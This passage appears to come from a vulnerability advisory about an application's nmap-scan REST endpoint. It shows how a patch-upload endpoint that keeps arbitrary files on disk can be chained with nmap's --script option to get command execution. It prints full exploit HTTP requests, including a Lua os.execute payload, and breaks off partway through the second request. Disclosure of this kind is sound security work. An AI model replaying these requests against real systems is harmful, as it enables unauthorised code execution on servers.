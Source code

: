 ```java
                                        process = Runtime.getRuntime().exec(command.toArray(new String[command.size()]));
                                } else {
                                        process = Runtime.getRuntime().exec(command.toArray(new String[command.size()]));
                                
                                (...)
                        }
          (...)
        }
```          

The full call chain is not displayed above for brevity, but nmap gets invoked with an *ipAddress* provided by the attacker in a *multipart/form-data* POST request to the */albatross/restAPI/v2/nmap/run/scan* API endpoint. 
We can inject anything we want in this parameter but, as seen above, this gets put into a String array that is passed to *Runtime.getRuntime().exec()*. As this function works in a similar way to C's *execve()*, it is not possible to perform command injection in a parameter. 

As listed in [GTFObins](https://gtfobins.github.io/gtfobins/nmap), having access to nmap allows running arbitrary commands if we can upload a script file and then pass that as an argument to nmap with *"--script=<FILE\>"*. Since we cannot inject commands in a parameter, our best chance is to write the commands to a file and pass that in the *--script* argument to nmap.

However, to achieve code execution in this way we still need to be able to upload a file. Luckily, there is a method that processes patch files and accepts arbitrary file data, saving it to *"/home/a3user/agile3/patches/<FILE\>"*. The method is too long and verbose to paste here, but it is supposed to accept a patch file, process it and apply it.
There are several bugs in version 2.0.2 that cause the method to abort early and fail to process the file. Still, the file is uploaded and kept on disk even after the method aborts. In other versions, there is some processing done, but again the file is kept on disk after the method terminates.

In order to upload a file, we simply need to send the following request:
```
POST /albatross/upload/patch HTTP/1.1
Host: 10.0.10.25:8443
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Cookie: JSESSIONID=D68124D3EFD66417B4C6B0950E1891C0;
CSRF-TOKEN: 4f88a837-5f12-4d15-a0d5-57b24de17176
Content-Type: multipart/form-data; boundary=_Part_387_3982485447_258275719
Content-Length: 330
Connection: close

--_Part_387_3982485447_258275719
Content-Disposition: form-data; name="patchFiles"; filename="owned.enc"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

os.execute("/usr/bin/whoami > /tmp/testing")
--_Part_387_3982485447_258275719--
```
The server will respond with a 200 OK but will include a JSON message saying an error has occured. This is irrelevant, as the file was still uploaded to disk.  
Finally we inject our parameters and run nmap with the following request:
```
POST /albatross/restAPI/v2/nmap/run/scan/18 HTTP/1.1
Host: 10.0.10.25:8443
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Authorization: Bearer 3b5b0fa6-2d46-4104-ba38-54a077d05a93
Content-Type: multipart/form-data; boundary=_Part_841_3176682485_2250831758
Content-Length: 440
Connection: close

--_Part_841_3176682485_2250831758
Content-Disposition: form-data; name="clientDetails"
```